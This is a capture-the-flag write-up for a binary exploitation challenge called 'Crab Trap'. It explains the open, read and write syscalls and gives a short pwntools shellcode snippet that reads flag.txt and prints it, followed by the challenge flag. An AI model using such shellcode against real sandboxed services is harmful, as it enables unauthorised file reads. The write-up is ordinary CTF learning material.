





# 『Crab Trap』



# 『The challenge』



This is ORW (open, read, write) challs, so lets solve it

# 『Highlight vulnerability and parts of interesting』

This is open, read, and write tho. Usually it interact with kernel of linux how to call syscall and interact with file systems. For the information i use this wu instead:

- [Kazma - orw](https://kazma.tw/2024/02/07/Pwnable-tw-orw-Writeup/)
- [Oxura - orw explanation](https://4xura.com/binex/orw-open-read-write-pwn-a-sandbox-using-magic-gadgets/)

and i read all of the information i need like open, read, and write is from this:

- [pwntools documentation](https://docs.pwntools.com/en/stable/shellcraft/amd64.html)
- [linux](https://linux.die.net/man/2/) you can use /read or /open or /write for reading it ex: `https://linux.die.net/man/2/read`

So basically:

- open() -> used to open that file reading the file which: pathname -> the path of the files that system read it
- read() -> reading the file which is you gain from open
- write() -> call syscall from kernel to write the data from buffer file. This used to show the result to your code that has been executed 

# 『Solving Challenge』
> solve by Lylera

So by using writeup from kazma:





so the result like this:



The solver it self:

```py
sc = asm(
    shellcraft.open('flag.txt') +
    shellcraft.read('rax', 'rsp', 100) +
    shellcraft.write(1, 'rsp', 100) +
    shellcraft.exit(0)
)
```

open -> to open the `flag.txt` files
read -> to read the content of flag.txt files
write -> to write it and show on our terminal

# 『Flag』

```
bronco{h0w_c4n_mr_kr4b5_c0de}
```

## 『Source code』

- [solver.py](./solver.py)